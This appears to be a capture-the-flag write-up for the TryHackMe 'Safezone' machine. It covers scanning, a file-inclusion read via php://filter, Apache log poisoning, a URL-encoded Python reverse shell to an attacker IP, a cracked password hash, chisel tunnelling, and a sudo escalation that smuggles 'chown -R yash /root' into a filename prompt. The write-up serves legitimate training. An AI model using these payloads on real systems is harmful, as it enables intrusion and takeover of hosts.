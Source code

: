 
First scan:
```
nmap -A -sV $IP | tee scan.txt

┌─[root@edu-virtualbox]─[/home/edu/THM/safezone]
└──╼ #cat scan.txt 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-02 18:53 CET
Nmap scan report for 10.10.241.1
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:6a:cd:1b:0c:69:a1:3b:6c:52:f1:22:93:e0:ad:16 (RSA)
|   256 84:f4:df:87:3a:ed:f2:d6:3f:50:39:60:13:40:1f:4c (ECDSA)
|_  256 9c:1e:af:c8:8f:03:4f:8f:40:d5:48:04:6b:43:f5:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Whoami?
|_http-server-header: Apache/2.4.29 (Ubuntu)

```


Major gobuster scan:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/safezone]
└──╼ #gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.241.1 -x .html,.php,.bak | tee gobuster_scan 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.241.1
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,bak
[+] Timeout:                 10s
===============================================================
2023/01/02 18:55:05 Starting gobuster in directory enumeration mode
===============================================================
/news.php             (Status: 302) [Size: 922] [--> index.php]
/index.php            (Status: 200) [Size: 2372]               
/index.html           (Status: 200) [Size: 503]                
/register.php         (Status: 200) [Size: 2334]               
/detail.php           (Status: 302) [Size: 1103] [--> index.php]
/logout.php           (Status: 200) [Size: 54]                  
/dashboard.php        (Status: 302) [Size: 922] [--> index.php] 
/server-status        (Status: 403) [Size: 276]               
===============================================================
2023/01/02 19:32:38 Finished
===============================================================
```

Registered user, found hint on `http://$IP/detail.php`:
```
<!-- Try using "page" as a GET parameter. -->
```

I noticed that my login name was being reflected:
```
<h2>welcome Edu!</h2>
```

Found `/note.txt`:
```
Message from admin :-
		I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```

Found `/~files/` with a bigger wordlist using Gobuster.
```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```
Password: `admin44admin`

As admin, use ```
```
http://$IP/detail.php?page=PATH_TO_FILE
```
to view the contents of the file.
Use base64-encode to view PHP files (also confirms it's using PHP, may be vulnerable to log poisoning)
```
php://filter/convert.base64-encode/resource=/var/www/html/index.php
```

Log file found:
```
http://$IP/detail.php?page=php://filter/convert.base64-encode/resource=/var/log/apache2/access.log
```

Using log poisoning with the XXX payload, it worked:
```
http://10.10.184.154/detail.php?page=/var/log/apache2/access.log&sus=ls%20-la%20/
```

Got the reverse shell:
```
http://10.10.122.114/detail.php?page=/var/log/apache2/access.log&rce=export%20RHOST=%2210.8.1.167%22;export%20RPORT=5555;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22/bin/bash%22)%27
```


Found hash in `files` home:
```
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
Password: `magic`


Something's going on at `127.0.0.1:8000`, maybe `yash`-hosted site?

Hint: `ls -la /`, any directories that catch my eye?


Used port tunelling:
```
./chisel_linux client 10.8.1.167:5000 R:8000:127.0.0.1:8000
chisel server -p 5000 --reverse
```

Found the `/login.html` page
Found in source:
```
<script src="login.js"></script>
```

Leads to:
```
var attempt = 3;
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "user" && password == "pass"){
alert ("Login successfully");
window.location = "pentest.php";
return false;
}
else{
attempt --;
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```


Uploaded SSH key to `yash` user
Tried sudo -l:
```
yash@safezone:/tmp$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py

```

```
yash@safezone:/tmp$ sudo /usr/bin/python3 /root/bk.py             
Enter filename: a;chown -R yash /root                                               
Enter destination:                                                                  
Enter Password:                                                                                                                                                         
```

And I got the flag :)

### Found credentials
- Admin login (web portal): `admin:admin44admin`
- MySQL login: `"localhost","root","myrootpass","db"`
- "Files" user login: `files:magic`

